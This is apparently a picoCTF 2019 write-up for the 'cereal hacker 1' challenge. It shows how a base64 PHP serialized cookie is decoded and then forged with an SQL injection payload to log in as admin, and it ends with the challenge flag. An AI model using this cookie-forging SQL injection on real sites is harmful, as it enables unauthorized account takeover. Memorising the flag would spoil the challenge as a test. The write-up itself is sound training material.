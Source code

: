 ## cereal hacker 1 (450)

#### Description
> Login as admin. https://2019shell1.picoctf.com/problem/32256/ or http://2019shell1.picoctf.com:32256

#### Solution
Login with account `guest:guest`, we got the cookie:
```
user_info: TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D
```
Base64 decode the cookie, we got this:
```
O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}
```
The login page is not injectable, but the cookie is injectable with SQLi.
Payload to login as admin:
```
O:11:"permissions":1:{s:8:"username";s:10:"admin'-- -";}
TzoxMToicGVybWlzc2lvbnMiOjE6e3M6ODoidXNlcm5hbWUiO3M6MTA6ImFkbWluJy0tIC0iO30=
```

Visit the admin page at https://2019shell1.picoctf.com/problem/32256/index.php?file=admin, we will get flag.

![flag.png](flag.png)


#### Flag
`picoCTF{2eb6a9439bfa7cb1fc489b237de59dbf}`
